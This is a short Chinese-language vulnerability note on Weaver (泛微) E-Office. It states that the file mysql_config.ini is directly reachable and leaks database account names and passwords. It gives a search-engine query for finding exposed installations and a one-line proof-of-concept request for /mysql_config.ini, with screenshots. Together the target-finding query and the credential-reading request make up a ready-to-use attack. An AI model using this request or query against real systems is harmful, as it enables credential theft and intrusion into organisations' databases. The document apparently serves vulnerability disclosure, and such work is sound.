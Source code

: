 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

<a-checkbox checked>泛微 E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1628480634885-fb632cc0-9146-482e-80f3-b37c3e9b5990.png)

验证POC

```php
/mysql_config.ini
```

![img](../../../.vuepress/public/img/1628480658765-2ba02ffc-962a-48ac-a708-26bfaddf8182.png)